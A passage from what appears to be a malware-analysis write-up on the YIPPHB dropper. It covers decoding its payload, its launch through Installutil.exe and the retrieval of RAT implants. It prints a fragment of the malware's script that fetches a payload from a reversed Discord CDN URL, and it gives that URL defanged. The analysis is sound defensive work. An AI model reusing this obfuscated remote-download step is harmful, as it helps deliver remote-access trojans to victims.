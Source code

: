 ```
…truncated…
```

We can stack recipes to perform these functions with CyberChef.

![Using CyberChef to decode pesica.txt](/assets/images/doing-time-with-the-yipphb-dropper/image2.png)

Once we’ve decoded **pesica.txt** , we calculate the hash **bba5f2b1c90cc8af0318502bdc8d128019faa94161b8c6ac4e424efe1165c2cf**. The decoded output of **pesica.txt** shows the **YippHB** module name.

```
...truncated...
ToInt16
<Module>
YippHB
ResumeThread_API
...truncated...
```

This module name is where the dropper name of YIPPHB is derived from. YIPPHB was originally discovered by security researcher [Paul Melson](https://twitter.com/pmelson). Paul [publicly disclosed](https://github.com/pmelson/bsidesaugusta_2022/blob/main/unk.yara) this dropper in October of 2022 at the Augusta BSides security conference.

The YIPPHB dropper is executed using the [Installutil.exe](https://learn.microsoft.com/en-us/dotnet/framework/tools/installutil-exe-installer-tool) command-line utility to start the RAT phase.

> We are referring to the next phase as the RAT phase. All of the binaries we were able to collect in this phase were RAT implants (NJRAT, LIMERAT, and ASYNCRAT); however, the modular nature of this intrusion set would allow for any implant type to be used.

### RAT phase

Now that the YIPPHB dropper has been executed, it picks up the second part of the original Unicode icon script to install the RAT implant.

```
…truncated…
('txt.0008tco01/1798128249382884301/325971924996365659/stnemhcatta/moc.ppadrocsid.ndc//:sptth' , $RodaCopy , 'တیای' ))
```

The RAT was retrieved from `https://cdn.discordapp[.]com/attachments/956563699429179523/1034882839428218971/10oct8000.txt`, which is reversed from **txt.0008tco01/1798128249382884301/325971924996365659/stnemhcatta/moc[.]ppadrocsid.ndc//:sptth**.

Looking at the file **10oct8000.txt** file, we can see that it is a reversed, Base64-encoded file.

```
=AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA…truncated…
```

We can correct this file and Base64 decode it using the command-line tools **rev** and **base64** and save the output as **10oct8000.bin**.

```
$ cat 10oct8000.txt | rev | base64 -D > 10oct8000.bin
```

